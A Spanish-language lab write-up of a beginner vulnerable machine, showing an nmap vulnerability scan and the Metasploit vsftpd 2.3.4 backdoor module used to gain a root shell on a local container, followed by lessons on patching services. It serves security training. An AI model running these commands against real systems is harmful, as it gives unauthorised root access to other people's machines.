





# FirstHacking 🕵️‍♀️

## 1. Información general de la máquina

- **Dificultad**: Muy Fácil
- **Puntos clave**: Explotación de backdoor, Metasploit Framework
- **Habilidades necesarias**: Uso básico de Metasploit, comprensión de vulnerabilidades en servicios FTP

## 2. Reconocimiento

El primer paso es acceder a la máquina virtual a través de la interfaz de línea de comandos proporcionada por Kali Linux. La dirección IP de la máquina objetivo es 172.17.0.2.
Al intentar ingresar por navegador a dicha direccion, no nos carga nada por lo que procedemos al paso siguiente.


## 3. Enumeración

Utilizamos Nmap para escanear los puertos abiertos y detectar vulnerabilidades en la máquina objetivo:

```bash
nmap -sS -vvv -script=vuln -Pn -p- -T4 172.17.0.2
```

Explicación del comando

- **`nmap`**: Herramienta de escaneo de redes.
- **`-sS`**: Realiza un escaneo SYN (stealth), que es menos detectable.
- **`-vvv`**: Muestra información detallada del escaneo.
- **`-script=vuln`**: Ejecuta scripts de detección de vulner, para detectar vulnerabilidades conocidas.
- **`-Pn`**:  Omite la detección de hosts, asumiendo que están activos.
- **`-p-`**: Escanea todos los puertos (0-65535).
- **`-T4`**: Establece la velocidad del escaneo a "agresiva".
- **`172.17.0.2`**: Dirección IP del objetivo a escanear



El escaneo revela un exploit de un backdoor con privilegios de root.

## 4. Explotación

Utilizamos Metasploit Framework para buscar módulos relacionados con vsFTPd, primero iniciaremos esta herramienta.

```bash
msfconsole
```


El siguiente paso es buscar un exploit relacionado con la vulnerabilidad que habiamos encontrado, para eso usaremos el siguiente comando:

```bash
search vsftpd
```



Obtenemos dos resultados, uno para hacer un DDoS y otro para ejecutar un backdoor. En esta oprtunidad usaremos el backdoor debido a que el objetivo de esta MV es obtener privilegios de **`root`**. Para usar este exploit usaremos el siguiente comando:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

Una vez cargado este modulo, tenemos que ver que variables debemos configurar para que el exploit funcione correctamente, para eso usaremos el comando **`show options`**, al hacerlo veremos que como requerido debemos configurar la direccion ip de la maquina objetivo.

```bash
set RHOSTS 172.17.0.2
```

Finalmente ejecutamos el modulo con el comando **`exploit`**



## 5. Escalada de privilegios

Como pudimos ver en la anterior imagen, al ejecutarse correctamente el exploit ya seriamos el usuario **`root`**. Al ejecutar el comando **`whoami`**, nos devuelve **`root`**



## 6. Captura de Bandera

Esta Maquina Vulnerable no cuenta con captura de bandera.

## 7. Lecciones Aprendidas

- La importancia de mantener los servicios actualizados para prevenir vulnerabilidades conocidas.
- Cómo utilizar Metasploit Framework para identificar y explotar vulnerabilidades específicas.
- La utilidad de realizar escaneos de vulnerabilidades post-explotación para obtener una visión completa de la seguridad del sistema.
- La criticidad de las vulnerabilidades de tipo backdoor, que pueden proporcionar acceso directo con privilegios elevados.

Este ejercicio demuestra cómo una vulnerabilidad en un servicio común como FTP puede comprometer completamente la seguridad de un sistema. Es crucial que los administradores de sistemas mantengan sus servicios actualizados y realicen auditorías de seguridad regulares para detectar y mitigar este tipo de vulnerabilidades.

